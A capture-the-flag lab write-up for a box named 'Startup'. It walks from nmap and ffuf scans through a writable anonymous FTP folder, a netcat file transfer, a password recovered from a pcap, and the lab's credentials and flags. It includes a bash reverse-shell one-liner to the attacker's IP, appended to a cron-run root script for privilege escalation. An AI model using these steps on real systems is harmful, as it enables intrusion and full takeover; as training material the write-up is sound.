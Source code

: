 # Startup

## Enumeration

### nmap

```
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.8.226.203
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDAzds8QxN5Q2TsERsJ98huSiuasmToUDi9JYWVegfTMV4Fn7t6/2ENm/9uYblUv+pLBnYeGo3XQGV23foZIIVMlLaC6ulYwuDOxy6KtHauVMlPRvYQd77xSCUqcM1ov9d00Y2y5eb7S6E7zIQCGFhm/jj5ui6bcr6wAIYtfpJ8UXnlHg5f/mJgwwAteQoUtxVgQWPsmfcmWvhreJ0/BF0kZJqi6uJUfOZHoUm4woJ15UYioryT6ZIw/ORL6l/LXy2RlhySNWi6P9y8UXrgKdViIlNCun7Cz80Cfc16za/8cdlthD1czxm4m5hSVwYYQK3C7mDZ0/jung0/AJzl48X1
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOKJ0cuq3nTYxoHlMcS3xvNisI5sKawbZHhAamhgDZTM989wIUonhYU19Jty5+fUoJKbaPIEBeMmA32XhHy+Y+E=
|   256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPnFr/4W5WTyh9XBSykso6eSO6tE0Aio3gWM8Zdsckwo
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### ffuf

```
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
[Status: 200, Size: 808, Words: 136, Lines: 21]
files                   [Status: 301, Size: 312, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 808, Words: 136, Lines: 21]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
```

If ftp is open its worth checking

haha nice meme...now we know Maya is a cool person

<img src="important.jpg" alt="important.jpg" width=300/>

`notice.txt`

```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

same files are found in the `files` directory of website by the way

```
binwalk important.jpg

## DECIMAL HEXADECIMAL DESCRIPTION

0 0x0 PNG image, 735 x 458, 8-bit/color RGBA, non-interlaced
57 0x39 Zlib compressed data, compressed
```

Expected that

I go back to ftp folder and notice that i missed a hidden file

but it just says `'test'` so not useful

```
150 Here comes the directory listing.
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 .
drwxr-xr-x 3 65534 65534 4096 Nov 12 2020 ..
-rw-r--r-- 1 0 0 5 Nov 12 2020 .test.log
drwxrwxrwx 2 65534 65534 4096 Nov 12 2020 ftp
-rw-r--r-- 1 0 0 251631 Nov 12 2020 important.jpg
-rw-r--r-- 1 0 0 208 Nov 12 2020 notice.txt
226 Directory send OK.
```

But hey we have write permission on ftp folder

lol...As it's also accessible via website we can execute a shell

And we are already in

We have no permssion to access lennie folder so I wander inside

As we start from `/` we get `recipe.txt`

```
www-data@startup:/$ cat recipe.txt
cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```

There is also an `incidents` folder

```
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
```

we get that pcap file with netcat

```
nc 10.8.226.203 2311 < suspicious.pcapng //on remote
nc -lnvp 2311 > suspicious.pcapng // on local (listen to)
```

Mostly gibberish as expected (its supposed to be a job for wiireshark)

```
*ôe*ôe[sudo] password for www-data:         d       œ=:wé.ÞD   D               E  4@ @ÕÀšÀš\æ¿Çó/5²â @®  
*ôe*ôed      x       Ÿ=:cÑOW   W              E  G@ @ÁÀšÀš\æ¿Çó/5²â @®   
*ôl*ôec4ntg3t3n0ughsp1c3
 x      h       Ÿ=:FyÃOF   F               E  6%@ @gJÀšÀšæ\/5²â¿È @®  
*ôl*ôl
  h      d       Ÿ=:ŸÃOD   D               E  4@ @ÓÀšÀš\æ¿È/5²ä @®  
*ôl*ôld             Ÿ=:ÆOÞi   i             E  Y%@ @g&ÀšÀšæ\/5²ä¿È @®²  
*ôuà*ôlsudo: 3 incorrect password attempts
```

`c4ntg3t3n0ughsp1c3` looks like a password

let's find out...and it is!

we can switch user (su) or just ssh as lennie with the creds

`lennie : c4ntg3t3n0ughsp1c3`

FLag

```
$ cat user.txt
THM{not_enough_tartar_sauce}
```

There is also a scripts folder

```
$ cd scripts
$ ls -al
total 16
drwxr-xr-x 2 root root 4096 Nov 12 2020 .
drwx------ 5 lennie lennie 4096 Nov 15 16:23 ..
-rwxr-xr-x 1 root root 77 Nov 12 2020 planner.sh
-rw-r--r-- 1 root root 1 Nov 15 16:26 startup_list.txt
```

Boy a sh script belonging to Root and we can execute it...but not write to it

```
$ cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

the script refer to another one and I am pretty sure we can modify this one

```
$ cat /etc/print.sh
#!/bin/bash
echo "Done!"
```

yup it belongs to lennie and we are lennie

it basically runs the print.sh just to say it is done?? XD

let's add a shell

`echo "bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/2311 <&1'" >> print.sh`

maybe its a cron because I didnt even need to run `./planner.sh`

I was immediately root on my netcat listenner

```
root@startup:~# cat root.txt
cat root.txt
THM{add_schezuan_sauce}
```

I wonder who that pretty sus Maya is

Funny how the meme named important.jpg was not even remotely important

Merely a distraction
